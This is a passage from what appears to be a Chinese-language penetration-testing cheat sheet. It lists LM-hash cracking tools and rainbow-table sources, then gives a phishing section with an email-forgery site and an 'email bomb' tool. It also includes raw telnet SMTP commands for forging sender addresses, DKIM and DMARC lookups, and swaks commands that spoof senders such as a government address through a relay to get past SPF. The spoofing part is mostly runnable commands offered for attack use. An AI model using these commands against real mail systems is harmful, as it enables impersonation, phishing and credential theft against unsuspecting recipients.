 - https://www.objectif-securite.ch/en/ophcrack

### Windows LMHash

- http://cracker.offensive-security.com/index.php
- https://sourceforge.net/projects/ophcrack/files/
- https://freerainbowtables.com/

- https://ophcrack.sourceforge.io/tables.php

## 钓鱼邮件

### https://emkei.cz/ - 在线邮件伪造

### 没有SPF 直接用swaks伪造 - kali自带

### https://github.com/Macr0phag3/email_hack - 邮件炸弹

### SMTP服务器中转:
telnet ip 25
HELO hello
mail from:<xx@xx.com>
rcpt to:<yy@yy.com>
data
from:xx@xx.com
to:yy@yy.com
subject:test
test
.
quit

### DKIM邮件签名:
邮件源文件DKIM头中s字段为selector的值
DKIM服务器域名 selector._domainkey.xxx.com
查找公开密钥 nslookup -type=txt s1024._domainkey.aliyun.com

### DMARC电子邮件认证协议:
通常情况下，它与SPF或DKIM结合使用，并告知收件方服务器当未通过SPF或 DKIM检测时该如何处理
nslookup -type=txt _dmarc.aliyun.com
none	不采取特定措施
quarantine	邮件接收者将DMARC验证失败的邮件标记为可疑的。
reject	域名所有者希望邮件接收者将DMARC验证失败的邮件拒绝
pct=：域名所有者邮件流中应用DMARC策略的消息百分比。
rua=：用于接收消息反馈的邮箱。 

### 绕过SPF

- swaks+smtp2go

	- 1.SMTP2GO配置
2.swaks --to xxx@163.com 
--from  admin@gov.com  
--ehlo  xxx  
--body  “hello ，i'm 007"
--server mail.smtp2go.com -p 2525 -au user -ap pass
3.保存eml格式文件
swaks --to test.163.com
--from admin@110.com 
--data 1.eml --h-from
--server mail.smtp2go.com -p 2525 -au user -ap pass
